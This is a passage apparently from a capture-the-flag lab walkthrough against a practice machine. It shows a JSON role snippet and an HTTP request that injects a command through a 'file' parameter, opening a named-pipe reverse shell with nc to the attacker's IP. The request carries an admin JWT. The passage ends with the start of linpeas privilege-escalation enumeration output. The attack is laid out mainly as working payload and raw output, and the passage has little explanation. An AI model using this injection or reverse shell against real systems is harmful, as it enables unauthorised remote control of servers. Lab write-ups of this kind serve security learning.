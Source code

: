 ```html
-------------


	{
		"role": {
			"role": "you are admin",
			"desc": "this is only for admin"
		}
	}

```

```html
GET /api/logs/?file=0;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.231 6969 >/tmp/f HTTP/1.1
Host: 10.10.11.120:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type:application/json
Auth-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjA1ODk0OTAxMjkxYzA0NjRkZmRmMTYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6IlRHQ0Bub3doZXJlLmNvbSIsImlhdCI6MTY0NDUzMDA3MH0.9mP1WrnMqAlNANivAR19Cn6vNTaPF_MBgTvOSYd9zow
Content-Length: 6

{

}
```

Transfer linpeas

```results
╔══════════╣ Operative system                                                                                                                                                                                     
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                                                                                                                                     
Linux version 5.4.0-89-generic (buildd@lgw01-amd64-044) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021                                                           
Distributor ID: Ubuntu                                                                                                                                                                                            
Description:    Ubuntu 20.04.3 LTS                                                                                                                                                                                
Release:        20.04                                                                                                                                                                                             
Codename:       focal                                                                                                                                                                                             
                                                                                                                                                                                                                  
╔══════════╣ Sudo version                                                                                                                                                                                         
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                                                                                                        
```